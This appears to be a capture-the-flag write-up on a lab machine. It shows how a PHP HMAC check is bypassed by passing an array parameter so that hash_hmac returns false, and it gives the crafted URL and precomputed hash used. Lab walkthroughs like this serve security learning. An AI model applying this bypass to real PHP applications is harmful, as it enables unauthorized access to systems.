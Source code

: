 
```php
<?php
if (empty($_GET['h']) || empty($_GET['host'])) {
   header('HTTP/1.0 400 Bad Request');
   print("missing get parameter");
   die();
}
require("secret.php"); //set $secret var
if (isset($_GET['n'])) {
   $secret = hash_hmac('sha256', $_GET['n'], $secret);
}

$hm = hash_hmac('sha256', $_GET['host'], $secret);
if ($hm !== $_GET['h']){
  header('HTTP/1.0 403 Forbidden');
  print("extra security check failed");
  die();
}
?>
```

Studying the code and breaking my head on it, I found out that `hash_hmac` function can be used to our benefit. According to the [function's defintion](https://www.php.net/manual/en/function.hash-hmac.php), this function takes strings as it's parameter and if something is wrong it gives us boolean value - false.
<br><br>
So, we can force this function to generate false as it's output, using the `n` parameter. If `n` is set then the $secret will contain some value, so using the above information let's see what we can do. And after we get the value for $secret as `false`. We can then bypass other if-else branch and get access to the system using `h` and `host` parameters as such,
<br><br>
What we have to do is, pass false and generate the value for `$hm` with some hosts, as such
```php
# generatehash.php
  1 <?php
  2 $secret = hash_hmac('sha256','hacker.com',false);
  3 print($secret)
  4 ?>

# Output : e86f889ce1872bcb2d54e7145c1a4b4d85ee32fdf4223ac345106a212f70b2bc
```
So we can craft a url request, which has,
* n[]=[1]
* h=e86f889ce1872bcb2d54e7145c1a4b4d85ee32fdf4223ac345106a212f70b2bc
* host=hacker.com
```url
pwd.harder.local/index.php?n[]=0&h=e86f889ce1872bcb2d54e7145c1a4b4d85ee32fdf4223ac345106a212f70b2bc&host=hacker.com
```

And after so much of struggle, we have something,
|url                     |username     |password (cleartext)            |
| --------------------- |:---------:|--------------------------------|
|http://shell.harder.htb|     evs     |xxxxxxxxxxxxxxxxxxxxxxxxxx|
